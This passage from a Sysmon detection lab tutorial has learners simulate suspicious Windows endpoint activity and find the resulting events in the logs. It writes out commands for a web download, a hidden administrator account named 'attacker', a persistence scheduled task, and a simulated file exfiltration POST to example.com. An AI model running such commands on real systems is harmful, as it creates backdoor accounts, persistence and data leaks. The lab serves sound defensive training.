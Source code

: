 3. **Verifying Sysmon Logging**:
   - Open Event Viewer and navigate to **Applications and Services Logs > Microsoft > Sysmon > Operational**.
   - Generate test events by opening PowerShell, launching applications, and creating network connections.
   - Verify that Sysmon is logging these activities under the correct Event IDs. Document any modifications you make to the configuration.

---

### **Part 2: Simulating Suspicious Endpoint Activities**

In this section, you’ll simulate various types of suspicious behavior on the endpoint. Each activity will trigger specific Sysmon events, helping you understand how typical suspicious activities appear in logs.

1. **Simulate a Suspicious PowerShell Command**:
   - Run a PowerShell command that is often flagged as suspicious:
     ```powershell
     Invoke-WebRequest -Uri "http://example.com" -OutFile "C:\temp\example.txt"
     ```
   - This command downloads a file from a remote location, which is often associated with malware downloads or data exfiltration.
   - Check the Sysmon logs for the **Process Creation (Event ID 1)** and **Network Connection (Event ID 3)** events related to this command.

2. **Simulate Unauthorized User Account Activity**:
   - Create a new local user account to simulate an unauthorized user:
     ```powershell
     net user attacker password123 /add
     ```
   - Then, add the account to the Administrators group:
     ```powershell
     net localgroup administrators attacker /add
     ```
   - Review Sysmon and Windows Security logs for events associated with account creation and privilege escalation. Note that Sysmon doesn’t log these activities by default, so you’ll also need to check the **Security** log in Event Viewer.

3. **Create Suspicious Scheduled Task**:
   - Create a scheduled task to simulate persistence:
     ```powershell
     schtasks /create /tn "UpdateTask" /tr "cmd.exe /c calc.exe" /sc onlogon
     ```
   - This task launches `calc.exe` (Calculator) at every logon, simulating a method attackers often use for persistence.
   - Review Sysmon logs for **Process Creation (Event ID 1)**, which should capture the creation of the scheduled task.

4. **Create Suspicious File and Network Activity**:
   - Create a sample file in `C:\Windows\Temp\` to simulate data staging:
     ```powershell
     echo "Sensitive Data" > C:\Windows\Temp\sensitive.txt
     ```
   - Run a data exfiltration simulation by uploading the file:
     ```powershell
     Invoke-WebRequest -Uri "http://example.com/upload" -Method Post -InFile "C:\Windows\Temp\sensitive.txt"
     ```
   - Check Sysmon for **File Creation (Event ID 11)** and **Network Connection (Event ID 3)** logs to identify the file creation and attempted exfiltration.

---